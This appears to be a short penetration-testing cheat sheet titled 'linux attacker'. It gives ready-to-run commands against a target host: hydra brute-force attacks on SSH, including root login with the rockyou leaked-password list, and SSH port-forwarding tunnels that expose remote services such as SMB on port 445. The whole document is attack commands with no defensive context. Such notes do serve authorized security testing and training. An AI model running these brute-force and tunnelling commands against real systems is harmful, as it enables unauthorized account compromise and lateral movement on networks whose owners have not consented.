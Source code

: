 # linux attacker

## bruteforce ssh root login

```bash
hydra -l root -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt "$rhost" -t 4 ssh
```

# bruteforce ssh with user wordlist and password wordlist

```bash
hydra -L pot-user.txt -P pot-password.txt "$rhost" -t 4 ssh
```

# tunnel local port 8001 to remote 8000

```
ssh -g -L 8001:localhost:8000 -N user@$rhost
```

# tunnel local port 445 to remote 445

```bash
ssh -N -L 0.0.0.0:445:"$rhost":445 user@$rhost
```
